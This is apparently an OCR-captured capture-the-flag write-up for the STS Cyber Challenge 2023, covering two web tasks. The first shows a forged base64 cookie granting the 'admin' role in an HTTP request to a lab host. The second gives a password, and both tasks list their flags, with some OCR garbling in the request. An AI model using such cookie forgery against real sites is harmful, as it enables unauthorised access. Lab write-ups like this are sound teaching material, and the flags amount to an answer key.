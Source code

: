 # STS Cyber Challenge 2023 Write-up

## Web 

### Task - Myktybek  

{"username":"Myktybek","email":"myktybek@moshnyi.bala","role":"admin"}

eyJ1c2VybmFtZSI6Ik15a3R5YmVrIiwiZW1haWwiOiJteWt0eWJla0Btb3NobnlpLmJhbGEiLCJyb2xlIjoiYWRtaW4ifQ==

Request:

    GET / HTTP/1.1
    Host: 172.17.0.1:8082
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
    Accept:
    text/html,application/xhtml+xml,application/xml;q=0.9,ima ge/avif,image/webp,image/apng, */*;q=0.8,application/signe d-exchange; v=b3;q=0.7
    Accept-Encoding: gzip, deflate 
    Accept-Language: en-US, en; q-0.9
    Cookie: user_data-
    eyJ1c2VybmFtZSI6Ik15a3R5YmVrIiwiZW1haWwiOiJteWt0eWJla0Btb3NobnlpLmJhbGEiLCJyb2xlIjoiYWRtaW4ifQ%3d%3d
    Connection: close

![image](https://github.com/user-attachments/assets/ee83fa8c-3ae7-4f00-b4f2-2fa144e546cb)

FLAG 

    STS{th1s_fl4g_1s_e4sy}

### Task - Entrance

![image](https://github.com/user-attachments/assets/946ab524-7221-4d4f-ab9c-1cc16189518a)

Password: `U2Qqw26nKfzt2FTTc4xKGp4M5Md3Ch`
    
![UchihaItachi](https://github.com/user-attachments/assets/2720ac06-cf09-42db-9bef-6d0a9a7eaf11)

FLAG:

    STS{L0g1n3d_Successfull_001}
